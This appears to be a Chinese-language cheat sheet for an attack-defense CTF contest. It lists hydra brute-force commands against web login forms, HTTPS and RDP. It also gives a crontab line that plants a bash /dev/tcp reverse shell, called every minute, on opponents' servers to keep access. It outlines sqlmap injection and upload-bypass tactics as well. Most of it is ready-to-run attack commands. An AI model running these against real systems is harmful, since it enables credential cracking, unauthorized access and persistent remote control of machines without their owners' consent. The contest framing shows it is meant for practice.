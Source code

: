 ``` bash
4、post方式提交，破解web登录： 
hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password" 
hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:<title>wrong username or password</title>" 
（参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,<title>中 的内容是表示错误猜解的返回信息提示。） 


4、破解https： 
hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https 


5、破解rdp： 
hydra ip rdp -l administrator -P pass.txt -V 
```

kali远程连接3389：

``` bash
rdesktop -f -a 16 [IP]:3389
```

### ssh连接

开局抢速度，在还未来得及更改密码前登上其他队服务器，全局搜flag：

``` bash
find / -name flag.txt
```

为避免被踢下线/删用户，暂时想到两个方法，一个是往`/etc/crontab`加个每分钟反弹shell的定时任务：

``` bash
echo '*/1 * * * * root echo "bash -i >& /dev/tcp/[ip]/[port] 0>&1" | bash -i' >> /etc/crontab
```

另外一个是直接放个脚本，死循环反弹shell。

有待测试。

### docker漏洞

提前按CVE建好文件夹，备好攻击用脚本、命令，一旦确定漏洞还未修复，直接复制粘贴攻击抢手速。

### 文件上传漏洞

找上传点，burpsuite抓包，改后缀、改文件类型、加图片文件头，一步一步来，传上去的同时还能知道怎么修。

seay审计源码，直接搜相应函数，对判断的函数加条件，或者直接拒绝一切条件（可能违规）。

### xss漏洞

找带框的一个个试，暂时只能想，而且即使找到了也不太会用。

### sql注入

网站里各种点点点，找到类似`[url]/?id=`的路径，丢到sqlmap里跑，带cookie的burpsuite抓个包，保存本地再丢给sqlmap。